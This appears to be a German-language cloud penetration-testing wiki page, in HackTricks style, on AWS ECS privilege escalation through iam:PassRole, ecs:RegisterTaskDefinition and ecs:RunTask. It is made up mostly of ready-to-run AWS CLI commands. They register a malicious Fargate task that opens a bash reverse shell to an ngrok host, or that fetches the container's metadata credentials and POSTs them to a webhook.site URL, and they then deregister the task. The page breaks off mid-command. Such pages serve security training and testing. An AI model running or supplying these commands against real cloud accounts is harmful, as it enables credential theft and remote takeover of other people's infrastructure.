 # AWS - ECS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Mehr **Informationen zu ECS** in:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

Ein Angreifer, der die Berechtigung `iam:PassRole`, `ecs:RegisterTaskDefinition` und `ecs:RunTask` in ECS missbraucht, kann **eine neue Task-Definition erstellen** mit einem **bösartigen Container**, der die Metadaten-Anmeldeinformationen stiehlt, und **diese ausführen**.

{{#tabs }}
{{#tab name="Reverse Shell" }}
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
{{#endtab }}

{{#tab name="Webhook" }}

Erstelle einen webhook bei einem Dienst wie webhook.site
```bash

# Create file container-definition.json
[
{
"name": "exfil_creds",
"image": "python:latest",
"entryPoint": ["sh", "-c"],
"command": [
"CREDS=$(curl -s http://169.254.170.2${AWS_CONTAINER_CREDENTIALS_RELATIVE_URI}); curl -X POST -H 'Content-Type: application/json' -d \"$CREDS\" https://webhook.site/abcdef12-3456-7890-abcd-ef1234567890"
]
}
]

# Run task definition, uploading the .json file
aws ecs register-task-definition \
```